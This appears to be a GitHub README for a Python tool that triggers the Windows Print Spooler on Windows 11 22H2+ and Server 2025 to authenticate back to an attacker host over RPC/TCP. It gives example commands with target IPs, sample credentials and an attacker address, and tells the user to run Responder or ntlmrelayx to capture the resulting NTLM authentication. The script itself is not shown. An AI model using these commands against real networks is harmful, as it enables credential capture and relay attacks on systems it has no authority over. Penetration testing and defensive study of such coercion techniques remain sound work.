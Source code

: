 # Pure RPC over TCP Printer Spooler Trigger
## For Windows 11 22H2+ / Windows Server 2025


## Usage
```
printerbugnew.py <target_host> [username] [password] [domain] [attacker_host] [tcp_port]
```

## Examples

### Anonymous connection
```bash
printerbugnew.py 192.168.1.100
```

### With credentials
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN
```

### Trigger backconnect to different host (attacker)
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50
```

### Use specific RPC port
```bash
printerbugnew.py 192.168.1.100 admin Password123 DOMAIN 192.168.1.50 49152
```

## Notes
- Target must be Windows 11 22H2+ or Server 2025 (RPC over TCP default)
- For older versions, spoolss uses RPC over Named Pipes (SMB)
- Ensure ports 135 and dynamic RPC ports (49152-65535) are open
- Start Responder or ntlmrelayx on attacker_host to capture auth
- Kerberos fails in this case due to a bad SPN from the spooler, forcing NTLM fallback.
- Find the target spooler’s RPC/TCP port by querying the target Endpoint Mapper (EPM) on TCP/135 for the interface UUID 12345678-1234-abcd-ef00-0123456789ab. You can use rpcdump.py, PortQry, or any tool you prefer - or just implement the EPM lookup directly in this code ;)
- Based on https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py
  <br><br>
  <img width="2019" height="657" alt="image" src="https://github.com/user-attachments/assets/84e8955e-c6ca-46de-abc8-b75829e259cc" />
<br><br>
  <img width="1555" height="844" alt="image" src="https://github.com/user-attachments/assets/3cecf90c-b581-4042-a487-6bb99e236475" />
<br><br>
<img width="548" height="332" alt="image" src="https://github.com/user-attachments/assets/84fe1c1b-4da2-4ce2-91c1-76e8c732b34f" />
